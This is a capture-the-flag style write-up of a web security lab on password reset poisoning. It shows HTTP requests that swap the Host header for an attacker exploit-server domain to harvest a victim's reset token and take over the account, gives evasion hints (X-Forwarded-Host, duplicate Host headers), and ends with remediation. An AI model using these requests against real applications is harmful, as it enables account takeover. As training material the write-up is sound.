









## Challenge Overview
* **Challenge name**: Basic password reset poisoning
* **Category**: HTTP Host Header attacks / Account Takeover
* **Level**: Apprentice
* **Objective**: Exploit Password Reset Poisoning to steal the password reset token and compromise the `carlos` account.

---

## 1. Core Fundamentals

Password reset functionality represents a critical component of identity management across web applications. This workflow demands absolute confidentiality and integrity regarding authentication tokens dispatched to user mailboxes.

### 1.1. Standard Password Reset Workflow

A conventional password reset workflow typically involves the following lifecycle:
- **Step 1:** The user initiates a request supplying their username or email address.
- **Step 2:** The system verifies account existence, generates a high-entropy cryptographically secure pseudo-random token, and persists it in the database alongside an expiration timestamp.
- **Step 3:** The server constructs a reset link embedding this token and transmits it to the user's registered email address:

```text
https://example.com/forgot-password?temp-forgot-password-token=SECRET_TOKEN
```

- **Step 4:** The user visits the link, submitting the token back to the server to establish a new password.

### 1.2. Architectural Flaw Leading to Password Reset Poisoning

When constructing the email link, the application must prepend the system's domain name to the resource path. Rather than relying on a static, trusted domain defined in server-side environment configurations, developers often dynamically retrieve the hostname directly from the HTTP request's `Host` header:

```java
// Common vulnerable implementation
String resetUrl = "https://" + request.getHeader("Host") 
                + "/forgot-password?temp-forgot-password-token=" + token;
emailService.sendResetEmail(user.getEmail(), resetUrl);
```

Because the `Host` header is entirely client-controlled and easily tampered with via an intercepting proxy such as Burp Suite, blindly trusting this value leads the application to generate a malicious link pointing directly to an attacker-controlled server.

---

## 2. Attack Architecture / Threat Model

### 2.1. Root Cause and Vulnerability Preconditions

- **Implicit Input Trust:** The application treats the `Host` header as a trusted source of truth when generating sensitive outbound links.
- **Absence of Host Domain Whitelisting:** Web server and reverse proxy infrastructures fail to validate, sanitize, or reject incoming requests bearing arbitrary `Host` headers.
- **User Trust Behavior:** The victim receives an official-looking email and clicks the poisoned link without scrutinizing the destination domain.

### 2.2. Attack Flow Diagram

```text
[ Attacker ]
       │
       │  Sends password reset request for carlos:
       │  POST /forgot-password HTTP/2
       │  Host: exploit-server.net      <── Replaced with Attacker domain
       │  username=carlos
       ▼
[ Web Application Server ]
       │
       │  Generates valid secret token: TOKEN_XYZ
       │  Constructs URL dynamically via Host header:
       │  https://exploit-server.net/forgot-password?temp-forgot-password-token=TOKEN_XYZ
       │  Dispatches email containing the link to victim's mailbox
       ▼
[ Carlos's Mailbox ]
       │
       │  Carlos inspects email and clicks the poisoned link
       ▼
[ Attacker Exploit Server ]
       │
       │  Logs incoming request in Access Log:
       │  GET /forgot-password?temp-forgot-password-token=TOKEN_XYZ HTTP/1.1
       ▼
[ Attacker Extracts Token ] ──► Resets Carlos's password ──► Full Account Takeover!
```

> [!NOTE]
> **Question 1: Why don't developers hardcode the domain instead of reading from the Host header?**
> 
> **Answer 1:** Real-world deployments often span multiple environments (dev, staging, QA, production) or operate in multi-tenant architectures where several domains share identical backend codebases. Developers frequently bypass configuring individual `BASE_URL` environment variables for each deployment, opting instead for the shortcut of dynamically reading the `Host` header, inadvertently introducing this severe vulnerability.
> 
> **Question 2: What if an upstream Web Server or Reverse Proxy prevents altering the Host header?**
> 
> **Answer 2:** When front-end reverse proxies strictly validate the standard `Host` header, attackers pivot toward advanced evasion techniques:
> - Utilizing proxy override headers such as `X-Forwarded-Host`.
> - Employing duplicate `Host` headers.
> - Exploiting discrepancies via forward proxies or SNI mismatches.

---

## 3. Vulnerability Exploitation

The exploitation process is executed methodically across five distinct phases:

### Phase 1: Baseline Analysis of the Password Reset Workflow

Dispatch a password reset request for the test account `wiener` using Burp Suite Repeater:

```http
POST /forgot-password HTTP/2
Host: 0a6a00ba0450131880ef178600140009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=kMq9RVeUxfQpLCIPJRKOJzxygHorbIzN&username=wiener
```



Inspect Wiener's inbox on the simulated Email Client. The incoming message contains a legitimate reset link:

```text
https://0a6a00ba0450131880ef178600140009.web-security-academy.net/forgot-password?temp-forgot-password-token=28fmtqhg74ekjf9g9ymp3iu9vxckmlck
```



Navigate to the provided link to inspect the application's password configuration interface:



---

### Phase 2: Verifying Host Header Reflection

To verify whether the application dynamically reflects arbitrary hostname values into generated links, re-send the request with an altered `Host: tu4nki3t` header:

```http
POST /forgot-password HTTP/2
Host: tu4nki3t
Content-Type: application/x-www-form-urlencoded

csrf=kMq9RVeUxfQpLCIPJRKOJzxygHorbIzN&username=wiener
```

The server returns an `HTTP/2 200 OK` response. Re-check Wiener's email inbox:



The link within the email has been fully poisoned, directly adopting the injected hostname:

```text
https://tu4nki3t/forgot-password?temp-forgot-password-token=nyv1624q9a50bpqbqyjpsauw980557co
```



---

### Phase 3: Poisoning Reset Links Targeted at Victim Carlos

Identify the unique Exploit Server hostname allocated for the lab: `exploit-0a20004004e5131580c9162c01ff00ac.exploit-server.net`. Craft a reset request targeting `username=carlos` with the `Host` header pointing to the Exploit Server:

```http
POST /forgot-password HTTP/2
Host: exploit-0a20004004e5131580c9162c01ff00ac.exploit-server.net
Content-Type: application/x-www-form-urlencoded

csrf=kMq9RVeUxfQpLCIPJRKOJzxygHorbIzN&username=carlos
```

The server processes the request successfully and transmits an email containing a link routed toward the Exploit Server directly into Carlos's inbox.



---

### Phase 4: Harvesting the Token from Exploit Server Access Logs

The victim Carlos reviews his inbox and clicks the poisoned link. The victim's browser initiates a direct HTTP request toward the Exploit Server. Access the **Access log** panel to observe the incoming entry and harvest the reset token:

```text
10.0.4.19 2026-09-14 07:49:40 +0000 "GET /forgot-password?temp-forgot-password-token=pgus7rprrupslmrlyrxkzmbc3bxo2qj8 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim)..."
```

Extracted Token: `pgus7rprrupslmrlyrxkzmbc3bxo2qj8`



---

### Phase 5: Resetting the Password and Compromising Carlos's Account

Construct the legitimate password reset URL using the original lab domain combined with the harvested token:

```text
https://0a6a00ba0450131880ef178600140009.web-security-academy.net/forgot-password?temp-forgot-password-token=pgus7rprrupslmrlyrxkzmbc3bxo2qj8
```

Submit a new password for Carlos's account:



Authenticate successfully using the `carlos` username and the newly established credentials. The lab is completed.



---

## 4. Remediation Strategies

### 4.1. Application-Layer Remediation

- **Enforce Static Domain Configuration:** Never derive the base URL from the incoming `Host` header or any client-supplied HTTP headers when generating outbound links. Domain names must be loaded strictly from immutable, verified environment configurations:

```java
// Secure implementation utilizing static configuration
String baseUrl = System.getenv("APP_BASE_URL"); // https://example.com
String resetUrl = baseUrl + "/forgot-password?temp-forgot-password-token=" + token;
```

- **Enforce Short Lifespans and Single-Use Tokens:** Password reset tokens must possess a strictly bounded time-to-live (TTL) and be immediately invalidated upon first use or subsequent generation requests.

### 4.2. Web Server and Reverse Proxy Hardening

- **Validate Hostnames at Reverse Proxies:** Configure Nginx, Apache, or API Gateways to strictly inspect the `Host` header against an explicit domain whitelist, rejecting unrecognized hostnames prior to forwarding traffic to upstream backend applications.
- **Configure Default Virtual Hosts:** Define a catch-all default server block configured to immediately drop unrouted or ambiguous connections:

```nginx
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    server_name _;
    return 444;
}
```
